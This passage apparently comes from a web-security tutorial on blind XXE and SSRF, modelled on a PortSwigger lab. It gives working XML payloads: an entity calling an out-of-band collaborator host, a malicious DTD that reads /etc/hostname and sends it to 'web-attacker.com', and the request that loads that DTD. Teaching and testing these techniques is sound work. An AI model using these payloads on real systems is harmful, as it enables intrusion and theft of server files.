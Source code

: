 ### Blind SSRF

Using the **previously commented technique** you can make the server access a server you control to show it's vulnerable. But, if that's not working, maybe is because **XML entities aren't allowed**, in that case you could try using **XML parameter entities**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

### "Blind" SSRF - Exfiltrate data out-of-band

**In this occasion we are going to make the server load a new DTD with a malicious payload that will send the content of a file via HTTP request (for multi-line files you could try to ex-filtrate it via \_ftp://**\_ using this basic server for example [**xxe-ftp-server.rb**](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)**). This explanation is based in** [**Portswiggers lab here**](https://portswigger.net/web-security/xxe/blind)**.**

In the given malicious DTD, a series of steps are conducted to exfiltrate data:

### Malicious DTD Example:

The structure is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

The steps executed by this DTD include:

1. **Definition of Parameter Entities:**
   - An XML parameter entity, `%file`, is created, reading the content of the `/etc/hostname` file.
   - Another XML parameter entity, `%eval`, is defined. It dynamically declares a new XML parameter entity, `%exfiltrate`. The `%exfiltrate` entity is set to make an HTTP request to the attacker's server, passing the content of the `%file` entity within the query string of the URL.
2. **Execution of Entities:**
   - The `%eval` entity is utilized, leading to the execution of the dynamic declaration of the `%exfiltrate` entity.
   - The `%exfiltrate` entity is then used, triggering an HTTP request to the specified URL with the file's contents.

The attacker hosts this malicious DTD on a server under their control, typically at a URL like `http://web-attacker.com/malicious.dtd`.

**XXE Payload:** To exploit a vulnerable application, the attacker sends an XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

